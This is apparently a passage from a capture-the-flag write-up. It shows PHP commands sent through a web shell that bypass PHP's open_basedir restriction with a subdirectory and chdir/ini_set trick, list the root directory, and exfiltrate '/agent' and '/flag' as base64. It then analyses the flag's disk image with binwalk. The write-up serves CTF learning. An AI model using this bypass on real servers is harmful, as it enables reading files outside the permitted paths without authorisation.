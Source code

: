 As you remember, there is an `open_basedir` restriction, but thanks to [this tweet](https://twitter.com/eboda_/status/1113839230608797696), it could be bypassed via creation of sub-directory:

```sh
$ ./shell.py 'mkdir(__DIR__."/aaa");'
$ ./shell.py 'chdir(__DIR__."/aaa");ini_set("open_basedir","..");chdir("..");chdir("..");chdir("..");chdir("..");chdir("..");var_dump(scandir("/"));'
array(25) {
  ...
  [3]=>
  string(5) "agent"
  ...
  [9]=>
  string(4) "flag"
  ...
}
```

Now we can read out these interesting files, using base64 to preserve binary data:

```sh
$ ./shell.py 'chdir(__DIR__."/aaa");ini_set("open_basedir","..");chdir("..");chdir("..");chdir("..");chdir("..");chdir("..");ini_set("open_basedir","/");echo base64_encode(file_get_contents("/agent"));' | base64 -d > agent

$ ./shell.py 'chdir(__DIR__."/aaa");ini_set("open_basedir","..");chdir("..");chdir("..");chdir("..");chdir("..");chdir("..");ini_set("open_basedir","/");echo base64_encode(file_get_contents("/flag"));' | base64 -d > flag
```

Again, `agent` binary will be needed in the next challenge. Now let’s have a look at `flag` file:

```sh
$ file flag
flag: gzip compressed data, was "flag.img", last modified: Fri Jun 26 00:54:32 2020, from Unix
$ zcat flag > flag.img
$ file flag.img
flag.img: Linux rev 1.0 ext2 filesystem data (mounted or unclean), UUID=d4d08581-e309-4c51-990b-6472ba249420 (large files)
```

We tried to mount it using `sudo mount -o loop flag.img ./mnt` but found nothing interesting inside. Maybe we did not dig deep enough, but another approach worked:

```sh
$ binwalk flag.img 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Linux EXT filesystem, rev 1.0, ext2 filesystem data (mounted or unclean), UUID=d4d08581-e309-4c51-990b-6472ba24ba24
46080         0xB400          PNG image, 728 x 100, 8-bit/color RGB, non-interlaced
46121         0xB429          Zlib compressed data, default compression

$ binwalk --dd='png:png:' flag.img
```
